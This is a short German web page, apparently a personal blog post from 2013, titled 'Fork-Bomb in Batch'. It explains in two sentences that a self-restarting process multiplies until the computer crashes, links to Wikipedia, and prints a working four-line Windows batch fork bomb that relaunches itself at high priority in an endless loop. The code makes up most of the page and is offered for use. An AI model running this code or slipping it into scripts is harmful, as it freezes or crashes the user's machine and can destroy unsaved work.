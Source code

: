 .. date: 2013/06/16 18:06
.. type: text

Fork-Bomb in Batch
==================

Beschreibung
------------

Dieses bischen Code startet einen Prozess, der sich selber startet und der somit neu gestartete Prozess tut das selbe.

Dadurch werden immer mehr Prozesse gestartet, bis der Computer abstürzt.

Eine gute Beschreibung mit weiteren Beispielen in anderen Programmiersprachen gibt es in der Wikipedia: http://de.wikipedia.org/wiki/Forkbomb

Source Code
-----------

.. code-block:: batch

    @echo off
    :start
    start "XXX" /high %0
    goto :start
